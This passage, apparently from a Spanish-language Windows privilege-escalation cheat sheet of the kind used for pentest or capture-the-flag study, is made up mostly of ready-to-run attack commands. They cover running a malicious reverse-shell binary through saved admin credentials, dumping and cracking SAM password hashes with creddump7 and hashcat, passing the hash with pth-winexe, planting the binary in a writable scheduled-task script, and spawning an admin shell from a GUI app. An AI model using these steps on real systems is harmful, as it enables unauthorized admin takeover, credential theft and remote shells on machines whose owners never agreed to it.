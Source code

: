         cmdkey /list

Si entre las credenciales guardadas aparecen las del admin(no vamos a ver la password) podemos correr nuestro binario malicioso como admin y tener una reverse shell:


        runas /savecred /user:admin C:\PrivEsc\reverse.exe



### SAM

Si podemos extraer el SAM y System (usualmente se encuentran en la carpeta windows/repair)

podemos unirlos con creddump7 y extraer el hash, luego con hashcat podemos intentar romperlo:

        git clone https://github.com/Tib3rius/creddump7
        pip3 install pycrypto
        python3 creddump7/pwdump.py SYSTEM SAM

##### Luego las rompemos con hashcat

        hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt

###### PASSING THE HASH

Si obtuvimos el hash pero no lo podemos romper, podemos loguearnos con el hash utilizando pth-winexe:

        pth-winexe -U 'admin%hash' //10.10.11.49 cmd.exe


### SCHEDULED TASKS

#### Enumerar las scheduled task desde powershell:
        Get-ScheduledTask | select TaskName,State


Si encontramos un archivo que corre tareas programadas y tenemos capacidades de escritura en los mismos podemos agregegarle una ejecución a nuestro binario malicioso:

        icacls "C:\PATH\To\file"

##### La ruta al archivo maliciosa debe ser absoluta!!!

        echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1

Esperamos con nuestro netcat a que se ejecute.

### INSECURE GUI APPS

Si vemos que una app corre como administrador (para esto necesitamos tener un entorno gráfico) podemos usarla para correr un cmd con los mismos privilegios:

Para ver con qué privilegios corre:

        tasklist /V | findstr binario_de_la_app.exe

Abrimos la app y le damos open para cargar un archivo "X" y en el explorador de windows colocamos:  

        file://c:/windows/system32/cmd.exe (o el path al cmd.exe)
